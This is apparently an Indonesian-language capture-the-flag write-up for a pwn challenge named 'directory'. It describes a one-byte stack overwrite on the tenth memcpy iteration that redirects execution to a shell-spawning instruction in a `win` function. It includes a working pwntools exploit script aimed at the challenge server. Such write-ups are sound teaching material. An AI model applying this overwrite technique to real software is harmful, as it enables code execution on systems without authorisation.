 Challenge dari program ini sangat sederhana, cukup overwrite address instruksi assembly `mov eax, 0` dengan address instruksi assembly `lea rax, str._bin_sh` yang terdapat pada fungsi `win` dengan `one-byte overwrite` pada iterasi kesepuluh fungsi `v4[0] = read(0, v2, 0x30uLL);` untuk mendapatkan `Arbitrary Code Execution`.

State stack destination sebelum `memcpy(&v2[20 * v1++ + 264], v2, v4[0]);` pada iterasi kesepuluh.

![image](https://hackmd.io/_uploads/HkIAUWPXR.png)

State stack destination setelah `memcpy(&v2[20 * v1++ + 264], v2, v4[0]);` pada iterasi kesepuluh.

![image](https://hackmd.io/_uploads/S151vbw70.png)


#### POC
```python
#!/usr/bin/python3
from pwn import *
exe = './directory'
elf = context.binary = ELF(exe, checksec = 0)
context.log_level = 'debug'
host, port = "nc directory.chal.cyberjousting.com 1349".split(" ")[1:3]
io = remote(host, port)
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
sl = lambda a: io.sendline(a)
com = lambda: io.interactive()
li = lambda a: log.info(a)

for i in range(1, 10, 1):
	sla(b'> ', b'1')
	p = b'A' * 0x30
	li(f"iterasi ke - {i}")
	sa(b'name: \n', p)
sla(b'> ', b'1')
p = flat({0x28: p8(0x3b)})
sa(b'name: \n', p)
sla(b'> ', b'4')
com()
```
![chall-sc](https://github.com/jonscafe/jonscafe.github.io/assets/118645827/b80e886c-b208-4403-91f8-9e9275e93619)
